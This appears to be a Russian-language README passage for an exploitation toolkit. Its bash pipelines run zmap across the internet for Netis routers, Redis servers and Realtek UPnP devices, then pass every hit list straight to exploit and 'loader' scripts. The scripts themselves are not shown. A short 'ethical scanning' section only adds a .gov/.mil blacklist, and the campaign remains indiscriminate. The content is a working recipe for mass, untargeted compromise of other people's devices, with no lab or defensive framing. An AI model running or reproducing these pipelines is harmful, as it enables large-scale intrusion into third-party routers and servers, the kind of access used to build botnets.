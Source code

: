 #### Полный автоматический пайплайн:
```bash
#!/bin/bash
# Автоматический поиск и эксплуатация

echo "🔍 Поиск Netis устройств..."
sudo zmap -p 80 -B 5M | head -1000 | cut -d',' -f1 > netis/auto_targets.lst

echo "🚀 Запуск эксплойта Netis..."
python2 netis/netis.py netis/auto_targets.lst

echo "🔍 Поиск Redis серверов..."
sudo zmap -p 6379 -B 5M | head -500 | cut -d',' -f1 > redis/auto_targets.lst

echo "🚀 Запуск Redis эксплойта..."
python2 redis/loader.py redis/auto_targets.lst results.txt

echo "✅ Автоматическое сканирование завершено!"
```

### ⚡ Быстрые команды для каждого эксплойта:

```bash
# Netis: автопоиск + запуск
sudo zmap -p 80 -B 10M | head -1000 | cut -d',' -f1 > /tmp/netis.lst && python2 netis/netis.py /tmp/netis.lst

# Redis: автопоиск + запуск  
sudo zmap -p 6379 -B 10M | head -500 | cut -d',' -f1 > /tmp/redis.lst && python2 redis/loader.py /tmp/redis.lst output.txt

# Realtek: UPnP автопоиск + запуск
sudo zmap -p 1900 --probe-module=udp -B 10M | head -800 | cut -d',' -f1 > /tmp/realtek.lst && python2 realtek/Realtek.py /tmp/realtek.lst
```

### 🛡️ Этические принципы сканирования:

```bash
# Создание blacklist файла (критически важно!)
cat > /etc/zmap/blacklist.conf << EOF
# Правительственные сети
.gov
.mil

# Критическая инфраструктура  
# Добавьте сюда известные IP диапазоны
EOF

# Этичное сканирование с blacklist
sudo zmap -p 80 --blacklist-file=/etc/zmap/blacklist.conf -B 1M -o ethical_scan.csv
```
